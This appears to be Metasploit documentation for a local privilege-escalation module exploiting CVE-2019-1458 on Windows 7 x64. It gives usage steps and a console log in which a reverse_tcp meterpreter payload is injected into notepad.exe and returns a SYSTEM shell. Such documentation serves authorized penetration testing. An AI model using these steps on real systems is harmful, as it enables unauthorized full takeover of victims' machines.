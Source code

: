 ## Vulnerable Application

This module exploits CVE-2019-1458, aka WizardOpium, a bug that occurs because a field within the tagSERVERINFO structure
at *(gpsi+0x154) was uninitialized, which allowed user mode attackers to set extra window data pointer in a
task switch window (designated by the FNID_SWITCH window class), which would otherwise only be able to be
set by the kernel. By setting this extra window data pointer, an attacker can write a limited amount of data
to an arbitrary kernel address in memory, thus providing them with an arbitrary kernel write primitive than can
be used to elevate privileges to SYSTEM.

This module has been tested against Windows 7 x64 SP1. Offsets
within the solution may need to be adjusted to work with other versions
of Windows.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Windows 7 SP1 x64
1. `use exploit/windows/local/cve_2019_1458_wizardopium`
1. `set session <session>`
1. `set payload windows/meterpreter/reverse_tcp`
1. `set LHOST <LHOST>`
1. `set LPORT 5555`
1. `exploit`
1. Get a SYSTEM session

## Scenarios

### Windows 7 SP1 x64 with win32k.sys Version 6.1.7601.17514

```
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 172.24.15.185:4444
[*] Sending stage (200262 bytes) to 172.24.15.185
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.24.15.185:4444) at 2020-10-09 15:18:22 -0500

meterpreter > getuid
Server username: test-PC\test
meterpreter > privs
[-] Unknown command: privs.
meterpreter > getsystem
[-] 2001: Operation failed: This function is not supported on this system. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2019_1458_wizardopium
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2019_1458_wizardopium) > show options

Module options (exploit/windows/local/cve_2019_1458_wizardopium):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PROCESS  notepad.exe      yes       Name of process to spawn and inject dll into.
   SESSION                   yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.24.12.125    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 x64


msf6 exploit(windows/local/cve_2019_1458_wizardopium) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/cve_2019_1458_wizardopium) > set LPORT 6633
LPORT => 6633
msf6 exploit(windows/local/cve_2019_1458_wizardopium) > exploit

[*] Started reverse TCP handler on 172.24.12.125:6633
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Launching notepad.exe to host the exploit...
[+] Process 2816 launched.
[*] Injecting exploit into 2816 ...
[*] Exploit injected. Injecting payload into 2816...
[*] Payload injected. Executing exploit...
[*] Sending stage (200262 bytes) to 172.24.15.185
[*] Meterpreter session 2 opened (172.24.12.125:6633 -> 172.24.15.185:49223) at 2020-10-09 15:19:07 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreatePermanentPrivilege
SeCreateSymbolicLinkPrivilege
SeCreateTokenPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeLockMemoryPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRelabelPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTcbPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(windows/local/cve_2019_1458_wizardopium) > sessions

Active sessions
===============

  Id  Name  Type                     Information                    Connection
  --  ----  ----                     -----------                    ----------
  1         meterpreter x64/windows  test-PC\test @ TEST-PC         0.0.0.0:0 -> 172.24.15.185:4444 (172.24.15.185)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ TEST-PC  172.24.12.125:6633 -> 172.24.15.185:49223 (172.24.15.185)

msf6 exploit(windows/local/cve_2019_1458_wizardopium) >
```
